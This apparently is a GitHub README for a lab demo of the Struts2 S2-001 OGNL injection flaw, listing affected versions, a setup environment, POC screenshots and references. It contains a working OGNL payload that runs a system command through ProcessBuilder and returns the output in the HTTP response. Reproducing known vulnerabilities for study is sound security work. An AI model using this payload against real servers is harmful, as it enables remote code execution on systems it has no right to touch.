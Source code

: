 # S2-001 Demo

## Summary

Impact of vulnerability: Remote Code Execution

Affected Software: `WebWork 2.1` (with `altSyntax` enabled), `WebWork 2.2.0` - `WebWork 2.2.5`, Struts 2.0.0 - Struts 2.0.8

Problem: The `'altSyntax'` feature of `WebWork 2.1`+ and Struts 2 allows `OGNL` expressions to be inserted into text strings and is processed recursively. This allows a malicious user to submit a string, usually through an HTML text field, containing an `OGNL` expression that will then be executed by the server if the form validation has failed.

## Environment

Struts2 Version: `struts-2.0.1-all`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

(Maybe you should do this.) Open the project with idea, and readd all the jars at web/WEB_INF/lib.

![{86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625]({86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625.jpg)

## POC

![{BAE4AA09-A99E-47E7-8197-E7006D373882}_20200619165731]({BAE4AA09-A99E-47E7-8197-E7006D373882}_20200619165731.jpg)

![{FDDB7DE1-A721-4C4B-A719-BEA79D4F0AC0}_20200619170042]({FDDB7DE1-A721-4C4B-A719-BEA79D4F0AC0}_20200619170042.jpg)

## Payload

`%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}`

## Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-001](https://xz.aliyun.com/t/2044)
- [S2-001](https://cwiki.apache.org/confluence/display/WW/S2-001)


